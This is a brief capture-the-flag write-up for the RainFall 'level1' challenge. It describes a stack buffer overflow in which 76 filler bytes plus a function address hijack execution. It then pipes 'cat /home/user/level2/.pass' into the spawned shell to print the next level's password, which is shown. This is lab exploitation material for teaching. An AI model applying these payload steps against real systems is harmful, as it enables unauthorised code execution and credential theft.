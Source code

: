 # Rainfall01

On binary dissasembly this looks like a buffer overflow attack, buff size is 76

Upon inspection we can see a function that we're supposed to call on address 0x08048444

It seems that it's possible to write more than 76 and overflow and hopefully get somewhere

We generate some filler char and add the address of our target function

```sh
level1@RainFall:~$ python -c 'print((76 * "\x11") + "\x44\x84\x04\x08")' > /tmp/payload
level1@RainFall:~$ ./level1 < /tmp/payload
Good... Wait what?
Segmentation fault (core dumped)
```

Ok so that's nice but that's no flag
The code appears to try and run bash but crashes, let's try to input something

There is a first read when we inject our payload and after this one we should be using bash

```sh
level1@RainFall:~$ (python -c 'print((76 * "\x11") + "\x44\x84\x04\x08")'; echo "cat /home/user/level2/.pass") | ./level1
Good... Wait what?
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
Segmentation fault (core dumped
```

Bingo

